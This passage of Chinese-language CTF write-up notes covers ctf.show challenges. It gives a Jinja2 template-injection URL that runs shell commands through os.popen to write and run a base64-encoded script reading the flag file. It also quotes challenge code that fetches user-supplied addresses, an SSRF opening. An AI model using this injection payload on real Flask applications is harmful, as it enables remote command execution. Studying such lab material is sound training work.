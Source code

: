 ![](attachments/Pasted%20image%2020230402110424.png)

`http://9854eeed-d441-4439-8254-f47232adb554.challenge.ctf.show/hello/{{g.pop.__globals__.__builtins__['__import__']('os').popen('echo "IyEvYmluL2Jhc2gKY2F0IC9mbGFnID4gMS50eHQ=" | base64 -d >1.sh').read()}}`

直接sh 1.sh就把flag放到1.txt里了，只需cat就可以

### 暗网聊天室
这道题死在没有扫站，主要平时打都不咋给扫
有robots.txt
![](attachments/Pasted%20image%2020230403071550.png)

```python

if request.args.get('api', None) is not None:
    api = request.args.get('api')
    if re.search(r'^[\d\.:]+$', api):
        get = requests.get('http://'+api)
        html += '<!--'+get.text+'-->'
return html
```
